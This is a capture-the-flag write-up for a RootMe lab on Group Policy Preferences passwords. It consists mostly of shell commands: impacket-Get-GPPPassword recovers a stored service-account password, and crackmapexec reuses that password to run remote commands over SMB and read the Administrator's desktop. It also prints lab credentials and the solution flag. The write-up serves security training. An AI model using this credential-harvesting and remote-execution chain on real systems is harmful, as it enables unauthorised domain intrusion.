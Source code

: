 ```yaml
---
title: RootMe - Windows - Group Policy Preferences Passwords
date: 2023-10-25
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Active Directory, AD]
author: barabulkit
---
```


# Windows - Group Policy Preferences Passwords

```shell
impacket-Get-GPPPassword 'ROOTME.local/pentest:Pent3st123!@ctf08.root-me.org'
```

![getpasswords](/assets/img/rootme/realistic/gppp/getpasswords.png)

```shell
crackmapexec smb ctf08.root-me.org -u svc_dbbackup -p 'aOwbn9laiMxFz0iYxLoMhuluNWY1GppL' -x 'dir C:\Users\Administrator\Desktop' --exec-method smbexec
crackmapexec smb ctf08.root-me.org -u svc_dbbackup -p 'aOwbn9laiMxFz0iYxLoMhuluNWY1GppL' -x 'type C:\Users\Administrator\Desktop\flag.txt' --exec-method smbexec
```

![getflag](/assets/img/rootme/realistic/gppp/getflag.png)

there is a flag `Gr0up_P0l1cy_Pr3fer3nce5_P4ssw0rds_c4n_b3_d3crypt3d!!!`